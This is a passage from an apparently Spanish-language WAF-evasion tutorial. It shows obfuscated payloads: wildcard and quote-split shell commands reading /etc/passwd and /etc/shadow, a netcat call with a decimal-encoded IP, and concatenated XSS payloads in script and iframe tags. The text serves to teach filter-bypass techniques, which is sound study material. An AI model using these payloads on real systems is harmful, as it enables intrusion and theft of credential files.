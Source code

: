 > /bin/cat /etc/passwd

**Ofuscar carga útil:**

> /???/??t /???/??ss??

**Caracteres usados:**

> / ? t s

**Solicitud básica:**

> /bin/nc 127.0.0.1 443

**Ofuscar carga útil:**

> /???/n? 2130706433 443

**Caracteres usados:**

> / ? n [0-9]

### **9. Técnica de generación de carga útil dinámica:**

Los lenguajes de programación tienen diferentes patrones y sintaxis para la concatenación. Esto nos permite generar cargas útiles que pueden eludir muchos filtros y reglas.

**Solicitud básica:**

> <script>confirm()</script>

**Ofuscar carga útil:**

> <script>eval('con'+'fi'+'rm()')</script>

**Solicitud básica:**

> /bin/cat /etc/shadow

**Ofuscar carga útil:**

> /bi'n'''/c''at' /e'tc'/sh''ad'ow

Bash permite la concatenación de rutas para su ejecución.

**Solicitud básica:**

> <iframe/onload='this["src"]="javascript:confirm()"';>

**Ofuscar carga útil**

> <iframe/onload='this["src"]="jav"+"as&Tab;cr"+"ipt:con"+"fir"+"m()"';>

### **10. Técnica de personajes basura**

WAF filtra fácilmente las cargas útiles simples. Agregar algunos caracteres basura ayuda a evitar la detección (solo en casos específicos). Esta técnica a menudo ayuda a confundir los firewalls basados ​​en expresiones regulares.

**Solicitud básica:**

> <script>confirm()</script>
